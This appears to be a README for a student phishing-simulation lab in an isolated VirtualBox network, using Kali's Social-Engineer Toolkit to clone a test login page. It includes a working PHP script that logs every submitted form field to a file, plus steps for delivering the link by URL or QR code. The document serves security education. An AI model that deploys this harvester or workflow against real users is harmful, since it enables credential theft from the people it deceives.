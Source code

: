 
# 📁 Project: Phishing Attack Simulation in an Isolated Virtual Lab

## 🧠 Overview
This project simulates a phishing attack in a controlled, isolated environment using Kali Linux, Social-Engineer Toolkit (SET), and a Windows 10 victim machine. It demonstrates how attackers create and deploy phishing pages, capture credentials, and log user interactions — all within a secure virtual lab.

## 🎯 Objectives
- Clone a legitimate login page
- Host the phishing page on Kali Linux
- Capture submitted credentials to a local log file
- Deliver the phishing link via local IP or QR code
- Simulate real-world phishing behavior in a safe environment

## 🛠️ Tools & Technologies
- Kali Linux
- Windows 10 (VirtualBox)
- Social-Engineer Toolkit (SET)
- Apache2 Web Server
- VirtualBox Host-only Networking
- PHP (for logging credentials)
- QR Code (Optional Delivery Vector)

## 🔧 Lab Setup

| Machine        | OS          | Role             | IP Address        |
|----------------|-------------|------------------|-------------------|
| Kali Linux VM  | Kali 2023.4 | Attacker/Host    | 192.168.56.101    |
| Windows 10 VM  | Win 10 Pro  | Victim           | 192.168.56.102    |

## 📂 Attack Workflow

### 1. Phishing Page Creation
- Launched SET Toolkit on Kali
- Used “Credential Harvester” module
- Cloned `http://testphp.vulnweb.com/login.php`
- Hosted the phishing site on Apache via `http://192.168.56.101`

### 2. Credential Logging Backend
Created `post.php` to log credentials:
```php
<?php
$log = "creds.txt";
$handle = fopen($log, "a");
foreach($_POST as $var => $value) {
    fwrite($handle, $var . "=" . $value . "\n");
}
fwrite($handle, "====================\n");
fclose($handle);
header('Location: index.html');
?>
```

### 3. Delivery
- Delivered phishing link via browser on Windows VM
- Optional: generated a QR code pointing to `http://192.168.56.101`

### 4. Data Collection
- Captured credentials stored in `/var/www/html/creds.txt`

## 📸 Screenshots
- [x] Phishing page clone in browser
- [x] `creds.txt` showing harvested logins
- [x] QR code (optional vector)
- [x] Network config screenshot (Host-only setup)

## ✅ Learning Outcomes
- Understood how phishing infrastructure works
- Built secure lab networks with VirtualBox
- Demonstrated credential harvesting and phishing vector delivery
- Practiced ethical hacking techniques within a safe environment

## 🔐 Disclaimer
This project was conducted **entirely within a private virtual lab environment**. No real users were targeted, and no real credentials were captured. This work was done for **educational purposes only** as part of cybersecurity lab development and personal growth.
